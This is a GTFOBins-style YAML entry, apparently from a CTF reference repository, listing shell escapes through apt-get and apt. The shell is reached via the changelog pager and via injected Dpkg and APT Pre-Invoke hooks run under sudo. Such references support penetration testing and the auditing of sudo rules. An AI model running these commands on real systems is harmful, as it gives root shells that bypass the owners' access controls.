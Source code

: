```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/hacksudoCTF/less/), other functions may apply.
      code: |
        apt-get changelog apt
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/hacksudoCTF/less/), other functions may apply.
      code: |
        sudo apt-get changelog apt
        !/bin/sh
    - description: For this to work the target package (e.g., `sl`) must not be installed.
      code: |
        TF=$(mktemp)
        echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
        sudo apt install -c $TF sl
    - description: When the shell exits the `update` command is actually executed.
      code: sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
---
```

